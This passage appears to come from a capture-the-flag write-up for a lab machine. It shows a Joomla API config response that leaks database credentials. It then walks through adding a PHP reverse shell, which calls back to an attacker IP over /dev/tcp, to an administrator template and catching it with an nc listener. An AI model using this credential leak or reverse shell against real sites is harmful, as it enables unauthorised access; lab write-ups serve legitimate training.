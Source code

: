 ```json
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

-----------
## Task 7

What table in the database contains hashed credentials for the logan user?

## Solution 7

Let's try to login with the credentials that we have now.

There we have administrator privileges and we can edit templates on `System` - `Administrator Template`. There is a template `Atum - Details and Files`.

Let's edit the `error.php` and add there a reverse shell.

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'");
?>
```

Start a listener on the same port.

```sh
nc -nlvp 4444
```

Now visit the page at `http://dev.devvortex.htb/administrator/templates/atum/error.php` and now we have a shell.

```sh
whoami
www-data
```
